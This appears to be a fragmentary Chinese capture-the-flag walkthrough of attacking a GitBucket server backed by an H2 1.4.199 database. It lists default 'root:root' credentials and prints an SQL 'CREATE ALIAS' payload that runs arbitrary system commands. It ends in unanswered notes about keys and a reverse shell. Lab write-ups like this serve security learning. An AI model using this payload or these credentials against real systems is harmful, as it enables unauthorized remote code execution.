







1. root:root


http://10.10.11.33:8080/admin/dbviewer

考虑到 GitBucket 是一个 java Web 应用程序，从 cookie 中：JSESSIONID，我们想到了 H2，它是一个用 Java 编写的关系数据库管理系统（我们可以通过运行不正确的查询来确认这一点），我们使用查找版本，它是 1.4.199。在谷歌上搜索，我们发现了这篇关于链接 RCE 的 H2 数据库中的漏洞的 Medium 帖子。SELECT H2VERSION() FROM DUALH2 java 1.4.199 exploit

所以基本上，H2 容易受到 RCE 的攻击，我们可以执行任意命令。我们首先创建一个名为 REVEXEC 的别名，这将允许我们稍后运行 shell 命令和执行代码。
```sql
CREATE ALIAS REVEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : ""; 
}$$;
```




执行后，我们现在可以调用我们的别名来执行命令。






公钥私钥？
利用私钥登录？





为啥？
反弹shell？